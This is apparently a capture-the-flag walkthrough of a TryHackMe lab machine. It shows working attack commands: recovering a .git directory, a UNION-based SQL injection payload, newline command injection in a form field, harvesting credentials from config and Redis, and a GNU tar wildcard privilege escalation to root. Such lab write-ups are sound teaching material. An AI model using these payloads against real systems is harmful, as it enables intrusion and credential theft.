









# TryHackMe: Sleighline — Walkthrough

> **Spoiler warning:** This walkthrough covers the complete path from the web application to root. Flag values are omitted from the text and covered with solid black bars in the screenshots.

[Open the room](https://tryhackme.com/room/sleighline)

## At a glance

| Item | Finding |
| --- | --- |
| Difficulty | Medium |
| Open TCP ports | 22 (SSH), 80 (HTTP) |
| Entry point | Exposed `.git` directory and SQL injection in wish tracking |
| Staff access | `santa_ops` account after cracking an MD5 hash |
| Code execution | Newline injection in the gift tag generator's `style` field |
| Internal service | Route planner on port 8080 |
| Next account | Redis entry containing SSH credentials for `jingle` |
| Privilege escalation | GNU tar wildcard injection in a `sudo`-allowed script |



**Lab note:** The target IP changes when the machine is restarted. During this verification it was `10.112.129.38`. An old Git deployment note described a second network interface, but this instance did not have one. The planner was reachable from the compromised web application's context at `127.0.0.1:8080`, while Redis listened at `127.0.0.1:6379`. SSH access for `jingle` used the current target IP. The note therefore describes the intended architecture, not a pivot that was necessary on this instance.

## 1. Reconnaissance

A full TCP scan found only SSH and HTTP:

```bash
export T=10.112.129.38  # Replace with your current target IP
nmap -p- --min-rate 1000 "$T"
```



Port 80 hosted the Wishlist Portal. Its Git directory was also accessible over HTTP: `/.git/HEAD` pointed to `refs/heads/main`, and that ref returned a commit hash. A normal HTTP `git clone` failed because the Git transport endpoints were unavailable. Individual Git objects could still be downloaded and inspected with `git cat-file`.

```bash
curl -s "http://$T/.git/HEAD"
commit=$(curl -s "http://$T/.git/refs/heads/main")
git init -q recovered
cd recovered
fetch_object() {
  hash=$1
  prefix=$(printf '%s' "$hash" | cut -c1-2)
  suffix=$(printf '%s' "$hash" | cut -c3-)
  mkdir -p ".git/objects/$prefix"
  curl -fsS "http://$T/.git/objects/$prefix/$suffix" \
    -o ".git/objects/$prefix/$suffix"
}
fetch_object "$commit"
git cat-file -p "$commit"
# Fetch the parent commit and the tree/blob hashes shown by git cat-file.
# The older tree contains notes/DEPLOY.md.
```



The Git history contained a deleted file, `notes/DEPLOY.md`. It held the first flag, a reference to `/app/config.ini`, and the route planner address. The flag is blacked out in the screenshot.



## 2. SQL injection and staff access

The tracking endpoint `/track` passed its `id` parameter into a SQL query. An `ORDER BY` test succeeded for position 4; position 5 produced a database error. The query therefore returned **four columns**.

```bash
for n in 4 5; do
  curl -sG --data-urlencode "id=1 ORDER BY $n-- -" "http://$T/track"
done
```

A `UNION SELECT` then returned rows from the `staff` table. `group_concat` combined the rows in the second output column, and `||` concatenated the values.

```bash
curl -sG --data-urlencode \
  "id=-1 UNION SELECT 1,group_concat(username||':'||password||':'||role,'|'),3,4 FROM staff-- -" \
  "http://$T/track"
```

This exposed a raw MD5 hash for `santa_ops`.


John cracked the hash `3b9787927ecbf1b5a270ce1ff8566872` with `rockyou.txt`, yielding `snowball`:

```bash
printf '%s\n' '3b9787927ecbf1b5a270ce1ff8566872' > hashes.txt
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
john --show --format=Raw-MD5 hashes.txt
```


Signing in as `santa_ops:snowball` opened the staff console. It contained the operations flag and the gift tag generator.


## 3. Command injection as `elf`

The tag generator inserted the `style` value into a shell command. A URL-encoded newline ended the expected argument, and `#` commented out the rest. With an authenticated staff session in `cookies.txt`, this request demonstrates command execution:

```bash
curl -s -b cookies.txt \
  --data-urlencode 'name=Mia' \
  --data-urlencode $'style=classic\nid\n#' \
  "http://$T/admin/tag"
```

The response showed `uid=113(elf)`. The same injection could read `/home/elf/flag.txt`.





`ss -tln` showed the planner on port **8080** and Redis on **6379**. Redis was bound to loopback. Code execution in the web application's context was enough to reach both services from the target.


## 4. Planner and manifest

`/app/config.ini` contained the service credentials `portal-sync:Tinsel-Sync-2026!`. Logging in to the planner at `127.0.0.1:8080/login` returned a session cookie and redirected to `/manifest`. These commands ran on the target through the previously confirmed injection as `elf`:

```bash
curl -si -c /tmp/routecookies \
  -d 'username=portal-sync' \
  -d 'password=Tinsel-Sync-2026!' \
  http://127.0.0.1:8080/login

curl -s -b /tmp/routecookies http://127.0.0.1:8080/manifest
```

The manifest contained another flag.


The `/maintenance` page listed the Redis host, port, and password `Frosty-Cache-77`. A note explained that the workshop credentials had been stored temporarily in the cache.


## 5. Redis to SSH

The Redis password allowed enumeration of the key `maint:workshop-host`. `HGETALL` revealed the SSH user `jingle` and password `Gingerbread-Sleigh-1225`:

```bash
redis-cli -a 'Frosty-Cache-77' SCAN 0
redis-cli -a 'Frosty-Cache-77' HGETALL maint:workshop-host
```




SSH on port 22 accepted those credentials. The user flag was in `jingle`'s home directory.

```bash
ssh jingle@"$T"
cat ~/user.txt
```



## 6. Privilege escalation with tar

`sudo -l` showed that `jingle` could run `/usr/local/bin/wrap-gifts` as root without a password. The script changed into `/home/jingle/gifts` and ran `tar czf /var/backups/gifts.tgz *`. The shell expands `*` to user-controlled filenames; names beginning with `--` can then be interpreted as tar options.



Two files supplied `--checkpoint=1` and `--checkpoint-action=exec=sh readroot.sh`. The script wrote proof of root execution and the root flag to files that `jingle` could read afterward. `chmod 644` was necessary because `wrap-gifts` set `umask 077`.

```bash
echo 'id > /home/jingle/root-id.txt; cat /root/root.txt > /home/jingle/rootflag.txt; chmod 644 /home/jingle/root-id.txt /home/jingle/rootflag.txt' > ~/gifts/readroot.sh
cd ~/gifts
touch -- '--checkpoint=1' '--checkpoint-action=exec=sh readroot.sh'
ls -la
sudo /usr/local/bin/wrap-gifts
cat /home/jingle/root-id.txt /home/jingle/rootflag.txt
```


The final proof showed `uid=0(root)` and the redacted root flag.


## Outcome and root causes

All 12 room tasks were completed. The six flag values are intentionally withheld. The remaining answers were: **2** open TCP ports, **4** SQL columns, staff password `snowball`, web user `elf`, planner port **8080**, and Redis key `maint:workshop-host`.

The chain relied on several separate issues: an exposed Git directory, an unsafe SQL query, a weak MD5 password, shell interpolation of form input, credentials stored in configuration and Redis, and a privileged tar invocation using a user-controlled wildcard argument.

**Screenshot review:** The original screenshots containing flags are not in this repository. Every published image was checked before upload, and each visible flag is covered by a solid black rectangle.
